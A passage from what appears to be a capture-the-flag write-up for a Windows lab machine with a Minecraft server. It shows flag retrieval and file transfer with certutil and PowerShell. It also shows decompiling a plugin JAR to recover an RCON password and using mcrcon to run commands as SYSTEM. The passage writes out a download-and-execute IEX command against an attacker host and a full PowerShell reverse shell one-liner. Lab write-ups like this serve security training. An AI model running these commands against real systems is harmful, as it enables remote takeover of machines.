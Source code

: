 - Retrieved the **user flag** from the user's home directory:
  ```cmd
  type C:\Users\svc_minecraft\Desktop\user.txt
  ```

Additional enumeration:
- Checked running processes: `tasklist`.
- No immediate privesc paths; focused on Minecraft-related files in `C:\Users\svc_minecraft\AppData\Roaming\.minecraft\plugins` or server directories.

---

## Privilege Escalation

### Plugin Reverse-Engineering

Enumerated the Minecraft plugins directory (typically `C:\minecraft_server\plugins` or similar; confirmed via `dir C:\ /s | findstr plugins`).

Found `playcount.jar` in the plugins folder. Transferred it to the attacker machine for analysis:

1. Hosted an HTTP server: `python3 -m http.server 8000`.
2. Downloaded via PowerShell in the shell:
   ```powershell
   IWR -Uri http://<VPN_IP>:8000/Invoke-WebRequest.ps1 -OutFile request.ps1; . request.ps1
   # Or used certutil for binary transfer
   certutil -urlcache -split -f http://<VPN_IP>:8000/playcount.jar playcount.jar
   ```

3. Analyzed with JD-GUI (Java Decompiler; install via `sudo apt install jd-gui` or download):
   - Opened `playcount.jar`.
   - Decompiled classes revealed hardcoded RCON credentials in `PlayCount.java` or similar: `s67u84zKq8IXw` (password for RCON access).

### RCON Exploitation

RCON (Remote Console) allows remote command execution on the Minecraft server as the server owner (SYSTEM privileges).

1. Installed an RCON client (e.g., mcrcon: `git clone https://github.com/Tiiffi/mcrcon.git; cd mcrcon; make`).

2. Connected and executed commands:
   ```bash
   ./mcrcon -H 10.10.11.249 -P 25575 -p "s67u84zKq8IXw" "op <nickname>"  # Gain OP status if needed
   ./mcrcon -H 10.10.11.249 -P 25575 -p "s67u84zKq8IXw" "execute <command>"
   ```

   To escalate, executed a reverse shell as SYSTEM:
   ```
   execute powershell IEX(New-Object Net.WebClient).DownloadString('http://<VPN_IP>:8000/rev.ps1')
   ```

3. Hosted `rev.ps1` (PowerShell reverse shell):
   ```powershell
   # rev.ps1 content
   $client = New-Object System.Net.Sockets.TCPClient('<VPN_IP>',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
   ```
